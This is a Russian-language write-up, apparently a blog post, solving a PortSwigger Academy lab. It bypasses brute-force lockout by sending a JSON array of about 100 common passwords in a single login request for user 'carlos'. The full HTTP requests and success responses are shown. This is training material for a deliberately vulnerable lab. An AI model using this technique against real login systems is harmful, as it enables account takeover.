 ```yaml
---
title: "Broken brute-force protection, multiple credentials per request"
date: 2025-10-09
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request"
classes: wide
---
```


Эта лаба уязвима к атаке брутфорсом из-за ошибки в логике защиты. Для решения нужно войти в учетку пользователя `carlos`.

```
https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/
```

## Solution

Ну-с. Нужно получить доступ к учетке. Пойду логиниться)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/1.png){: height="200" .align-center}

Сам запрос:

```http
POST /login HTTP/2
Host: 0aaa00650426d98780d930d4009900ea.web-security-academy.net
Cookie: session=FOehRTUJ8LvfSBoeA4PDBTMQTNcOQN22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"wiener","password":"peter"}
```

Магия... `winere`:`peter` - постоянные креды для большей части лаб. Попробуем брутфорсить этот пароль. Так-с. После 4 запросов меня заблочили. При этом не работает даже ввод корректных кред.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/2.png){: height="200" .align-center}

Попробовал следующую логику: отправил 2 неправильных пароля, затем успешно вошел в аккаунт, снова отправил неверные креды. Все равно словил блок. Значит такой способ не подойдет. Добавлю `X-Forwarded_for: web-security-academy.net`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/3.png){: height="200" .align-center}

Все еще не то. Попытка отправить пачку запросов в надежде на `Race Condition` тоже не вышла. Попробую добавить лишние поля в тело запроса:

```http
POST /login HTTP/2
Host: 0aaa00650426d98780d930d4009900ea.web-security-academy.net
Cookie: session=FOehRTUJ8LvfSBoeA4PDBTMQTNcOQN22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/login
Content-Type: application/json
Content-Length: 93
Origin: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"wiener",
	"password": [
		"peter1",
		"aaaa",
		"aoeuaoeu",
		"aoeuaoeu",
		"peter"
	]
}
```

О как:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=ngHxgYJlpNsbYdLoJ3deLDif99yoZcHw; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Возьму пароли из [этого](https://portswigger.net/web-security/authentication/auth-lab-passwords) списка. 

Составлю запрос:

```http
POST /login HTTP/2
Host: 0aaa00650426d98780d930d4009900ea.web-security-academy.net
Cookie: session=FOehRTUJ8LvfSBoeA4PDBTMQTNcOQN22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/login
Content-Type: application/json
Content-Length: 1189
Origin: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"carlos",
"password": ["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
"654321",
"superman",
"1qaz2wsx",
"7777777",
"121212",
"000000",
"qazwsx",
"123qwe",
"killer",
"trustno1",
"jordan",
"jennifer",
"zxcvbnm",
"asdfgh",
"hunter",
"buster",
"soccer",
"harley",
"batman",
"andrew",
"tigger",
"sunshine",
"iloveyou",
"2000",
"charlie",
"robert",
"thomas",
"hockey",
"ranger",
"daniel",
"starwars",
"klaster",
"112233",
"george",
"computer",
"michelle",
"jessica",
"pepper",
"1111",
"zxcvbn",
"555555",
"11111111",
"131313",
"freedom",
"777777",
"pass",
"maggie",
"159753",
"aaaaaa",
"ginger",
"princess",
"joshua",
"cheese",
"amanda",
"summer",
"love",
"ashley",
"nicole",
"chelsea",
"biteme",
"matthew",
"access",
"yankees",
"987654321",
"dallas",
"austin",
"thunder",
"taylor",
"matrix",
"mobilemail",
"mom",
"monitor",
"monitoring",
"montana",
"moon",
"moscow"
]}
```

Красотища. Погнали))

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=7IeODKq0yeW0kNcOOeBJESNd1qtSieeN; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Открою в браузере с помощью кнопки `Show response in browser`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/4.png){: height="200" .align-center}

Done)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/5.png){: height="200" .align-center}